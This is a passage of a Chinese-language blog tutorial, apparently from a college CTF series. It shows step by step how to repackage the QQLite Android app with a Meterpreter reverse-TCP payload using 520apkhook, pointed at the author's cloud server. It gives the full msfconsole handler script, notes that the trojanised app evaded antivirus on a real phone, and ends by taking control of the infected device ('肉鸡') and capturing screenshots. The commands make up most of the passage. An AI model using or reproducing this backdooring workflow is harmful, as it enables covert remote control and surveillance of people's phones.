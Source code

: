 ```bash
python3 main.py --lhost <我的腾讯云IP> --lport 5555 -n QQLite.apk
```

然后程序就会自动开始打包，最后会告诉我们打包完成的文件位置

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/vmware-20220607-231140.png?download=true)

然后我们安装打包好的apk，我用我的手机测试了并没有报毒（红米K40 MIUI13），不过后来我还是选择在模拟器上安装，安装完后显示为正常的QQ轻聊版，而且能够正常使用

**但是并不是所有的应用都可以被注入，新版的微信就不可以（自动模式找不到入口smali）**

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/HD-Player-20220607-231533.png?download=true)

## 在云服务器上创建监听器

这个创建监听器的命令其实在520apkhook的文件夹里面已经给我们写好了，log里面有一行写道

```
[!] 生成的Msf Handler在: /home/gamernotitle/CTF/520apkhook/WorkDir/handler.rc
```

也就是说`handler.rc`文件已经为我们写好了在msfconsole里面运行的命令

我们可以通过msfconsole自带的命令加载

```bash
msfconsole -r handler.rc
```

也可以打开`handler.rc`并复制里面的内容

```
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set AutoLoadStdapi true
set LHOST 0.0.0.0
set LPORT 5555
set exitonsession false
exploit -j
```

然后粘贴在你的msfconsole里面

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/Xshell-20220607-231853.png?download=true)

这样就算是运行了，然后我们打开安装的软件，我们的msfconsole会提示肉鸡上线

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/Xshell-20220607-231955.png?download=true)

这时可以用`sessions`命令查看在线的肉鸡

![](https://gamernotitle.coding.net/p/assets/d/assets/git/raw/master/img/CTF-in-College-5/Xshell-20220607-232045.png?download=true)

用`session -i <id>`就可以控制肉鸡啦

我这里就可以用`session -i 1`来通过第一个端口控制模拟器，使用`screenshot`命令进行截图
